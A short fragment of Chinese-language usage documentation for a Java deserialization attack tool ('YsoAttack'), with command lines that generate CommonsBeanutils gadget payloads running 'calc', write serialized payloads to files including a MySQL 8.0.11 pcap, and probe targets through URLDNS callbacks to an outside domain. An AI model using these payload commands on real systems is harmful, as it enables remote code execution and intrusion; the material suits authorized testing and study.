 ```bash
-m YsoAttack -g CommonsBeanutils2_110 -a "Templateslmpl:auto_cmd:calc" -mysql-pcap 8.0.11 -writeToFile="./8.0.11.bin"
```

![image-20250810142820953](images/image-20250810142820954.png)![image-20250810142820954](images/image-20250810142746742.png)

#### writeToFile 生成内容写入文件

描述：将YsoAttack引擎生成的序列化的数据写入到文件中

工具：添加writeToFile参数，参数值为将内容写入的文件名

```java
-m YsoAttack -g CommonsBeanutils2 -a "Templateslmpl:auto_cmd:calc" -writeToFile="/tmp/CB2.ser"
```

### URLDNS

描述：检测Java反序列化漏洞是否存在，或者测试目标环境是否dns出网

工具：使用方式如下：dns域名前面需要加http://协议头

```bash
-m YsoAttack -g URLDNS -a "http://tonjwpkypp.dgrh3.cn"
```
